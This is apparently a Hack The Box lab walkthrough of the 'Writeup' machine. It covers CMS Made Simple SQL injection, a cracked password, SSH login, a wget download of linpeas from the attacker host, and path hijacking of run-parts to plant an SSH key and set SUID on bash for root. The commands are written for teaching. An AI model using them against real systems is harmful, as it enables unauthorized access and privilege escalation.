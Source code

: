 ```yaml
---
title: "Writeup"
date: 2025-08-12 14:10:00 +0500
categories: [Boxes]
tags: [HTB, Box, Linux, Easy, SQLi, CMS Made Simple, pspy, Path Hijacking, SUID]
---
```


## Reconnaissance

### Port Discovery

```bash
sudo nmap -PN -sC -sV -oN writeup 10.10.10.138
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-12 14:14 PKT
Nmap scan report for 10.10.10.138
Host is up (0.090s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Nothing here yet.
| http-robots.txt: 1 disallowed entry 
|_/writeup/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.61 seconds
```

### Web Enumeration

Let's interact with the web server on port 80. 

![alt text](/assets/images/writeup-web.png)

From nmap scan, we can see there is a robots.txt file that disallows access to `/writeup/`. Let's check it out.

There are 3 writeups available. They are fetched with the query: `http://10.10.10.138/writeup/index.php?page=ypuffy`

On viewing the page source of `/writeup/index.php`, we see:

```html
<meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved." />
```

#### Version Detection

CMS Made Simple 2019 was used. From CMS Made Simple website: [Website](https://www.cmsmadesimple.org/downloads/cmsms)
we can try to understand the structure of the CMS and how it works. Also during my search I came across an SQLi.

[SQLi CMS Made Simple](https://www.exploit-db.com/exploits/46635)

If we go to [CMS Made Simple](http://svn.cmsmadesimple.org/svn/cmsmadesimple/trunk/)http://svn.cmsmadesimple.org/svn/cmsmadesimple/trunk/
we can understand the structure of CMS. 

![alt text](/assets/images/writeup-cms.png)

We can confirm the existence of admin directory. But it requires auth. `http://10.10.10.138/writeup/admin`

If we go to: `http://10.10.10.138/writeup/doc/CHANGELOG.txt` we can confirm the version.

CMS Made Simple - Version 2.2.9.1

### Exploitation

The exploit we came across supports this version.

[Exploit](https://www.exploit-db.com/exploits/46635)

The script requires Python2, pip2 (for module termcolor). Wait once the script starts running.

```bash
python2 exploit.py -u http://10.10.10.138/writeup
[+] Salt for password found: 5a599ef579066807lp
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43z
```

However, the password is not in correct MD5 format. It is not 32 characters long. We will run the script a few more times. Now we have a different salt and password. After running the script for the 3rd time we get:

![alt text](/assets/images/writeup-password.png)

### Hashcat

`62def4866937f08cc13bab43bb14e6f7:5a599ef579066807`

`62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9`

## Foothold

### SSH

Let's try SSH. 

```bash
ssh jkr@10.10.10.138   
The authenticity of host '10.10.10.138 (10.10.10.138)' can't be established.
ED25519 key fingerprint is SHA256:TRwEhcL3WcCSS2iITDucAKYtASZxNYORzfYzuJlPvN4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.138' (ED25519) to the list of known hosts.
jkr@10.10.10.138's password: 
Linux writeup 6.1.0-13-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Oct 25 11:04:00 2023 from 10.10.14.23
jkr@writeup:~$ 
```

We don't have curl on the victim machine to transfer linpeas. 

### wget

Let's use wget to download linpeas.

```bash
wget http://10.10.16.30/linpeas.sh
--2025-08-12 06:48:07--  http://10.10.16.30/linpeas.sh
Connecting to 10.10.16.30:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 956174 (934K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                          100%[=================================================================================================================>] 933.76K   839KB/s    in 1.1s    

2025-08-12 06:48:09 (839 KB/s) - ‘linpeas.sh’ saved [956174/956174]
```

LinPEAS didn't get us much information.

```bash

jkr@writeup:~$ ss -tulnp
Netid  State      Recv-Q Send-Q                                                       Local Address:Port                                                                      Peer Address:Port              
udp    UNCONN     0      0                                                                        *:68                                                                                   *:*                  
tcp    LISTEN     0      128                                                                      *:22                                                                                   *:*                  
tcp    LISTEN     0      80                                                               127.0.0.1:3306                                                                                 *:*                  
tcp    LISTEN     0      128                                                                     :::22                                                                                  :::*                  
tcp    LISTEN     0      511                                                                     :::80                                                                                  :::*
```

Let's enumerate MySQL. Our current user can't access mySQL. From LinPEAS I also observed that the current user is in a unique group. 

## Privilege Escalation

```bash
uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
```

Let's check what the staff group does on debian. 

From: [SystemGroups](https://wiki.debian.org/SystemGroups)

staff: Allows users to add local modifications to the system (/usr/local) without needing root privileges (note that executables in /usr/local/bin are in the PATH variable of any user, and they may "override" the executables in /bin and /usr/bin with the same name). Compare with group "adm", which is more related to monitoring/security.

Basically if we are able to find any binary that runs without calling it's absolute path and is located inside `/usr/bin` we can override that binary to either add a root user, create an ssh key for root user, or set suid on bash.

Transfer pspy, run it. SSH as jkr again and check if any process runs without calling the absolute path.

```bash
2025/08/12 07:20:28 CMD: UID=0     PID=1      | init [2]   
2025/08/12 07:20:58 CMD: UID=0     PID=20873  | sshd: [accepted] 
2025/08/12 07:20:58 CMD: UID=0     PID=20874  | sshd: [accepted]  
2025/08/12 07:21:01 CMD: UID=0     PID=20875  | /usr/sbin/CRON 
2025/08/12 07:21:01 CMD: UID=0     PID=20876  | /usr/sbin/CRON 
2025/08/12 07:21:01 CMD: UID=0     PID=20877  | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
2025/08/12 07:21:12 CMD: UID=0     PID=20878  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2025/08/12 07:21:12 CMD: UID=0     PID=20879  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2025/08/12 07:21:12 CMD: UID=0     PID=20880  | run-parts --lsbsysinit /etc/update-motd.d 
2025/08/12 07:21:12 CMD: UID=0     PID=20881  | uname -rnsom 
2025/08/12 07:21:12 CMD: UID=0     PID=20882  | sshd: jkr [priv]
```

`run-parts` and `uname` are two binaries that run without calling their absolute path. We can override either. 

I tried the SSH path and adding a user path however, they both didn't seem to work.

This is the run-parts binary under `/usr/local/bin`:

```bash
#!/bin/bash

touch /tmp/test
mkdir ~/.ssh
echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDyrUNppv/urjkY2LsG9OPcV/WcMOUjXFsEQiYpNnt+t root@vm-kali'
>> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
```

I then went for setting an SUID on bash:

```bash
jkr@writeup:~$ touch /usr/local/bin/run-parts
jkr@writeup:~$ echo -e '#!/bin/bash\n\nchmod u+s /bin/bash' > /usr/local/bin/run-parts; chmod +x /usr/local/bin/run-parts
jkr@writeup:~$ /bin/bash -p
bash-4.4# whoami
root
bash-4.4# cat /root/root.txt
```

To trigger the run-parts binary be sure to SSH as jkr again.

---
